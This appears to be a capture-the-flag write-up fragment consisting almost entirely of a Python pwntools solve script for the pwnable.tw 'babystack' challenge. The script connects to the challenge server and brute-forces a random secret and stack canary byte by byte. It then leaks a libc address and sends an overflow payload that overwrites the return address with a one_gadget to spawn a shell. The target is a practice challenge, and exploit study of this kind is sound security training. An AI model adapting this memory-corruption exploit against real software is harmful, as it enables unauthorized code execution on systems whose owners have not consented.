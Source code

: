 #### **Solve Script**:
```python
from pwn import *
from time import sleep
#p = process('./babystack_patched')
p = remote("chall.pwnable.tw", 10205)

# brute-force random byte
def brute_force():
	urandombytes = []
	for i in range(0x10):
		length = len(urandombytes)
		print(f'Bytes so far: {urandombytes}')
		for x in range(1, 256):
			print(f"testing {x} out of 255\n", end='\r')
			p.sendline(b'1')
			result = p.recvuntil(b' :', timeout=5)
			p.sendline(bytes(urandombytes + [x]))
			result = p.recv(timeout=5)
			if b'Failed' not in result:
				urandombytes.append(x)
				p.sendline(b'1')
				p.recv(timeout=5)
				break
	print(urandombytes)
	return urandombytes

# get canary
canary = brute_force()
if (len(canary) != 16):
	print("failed to get canary")
	exit(0)
p.sendline(b'1')
print(p.recv(timeout=5))
p.send(b'\x00' + b'A'*63 + b'C'*8)
print(p.recv(timeout=5))
p.sendline(b'3')
print(p.recv(timeout=5))
p.send(b'B'*0x3f)
print(p.recv(timeout=5))
p.sendline(b'1')
print(p.recv(timeout=5))

# get libc
libc_leak = brute_force()

# user-menu reset after brute-force
p.sendline(b'1')
print(p.recv())
libc_leak = libc_leak[8:]

# EXPLOIT TIME
libc_leak = u64(bytes(libc_leak).ljust(8, b'\x00'))

# Print leak for sanity-check
print("Got LIBC leak:", hex(libc_leak))
one_gadget = (libc_leak - 492601) + 0x45216
p.send(b'\x00' + b'A'*63 + bytes(canary) + b"B"*0x18 + p64(one_gadget))
print(p.recv())
p.sendline(b'3')
print(p.recv())
p.send(b'B'*0x3f)
print(p.recv())
```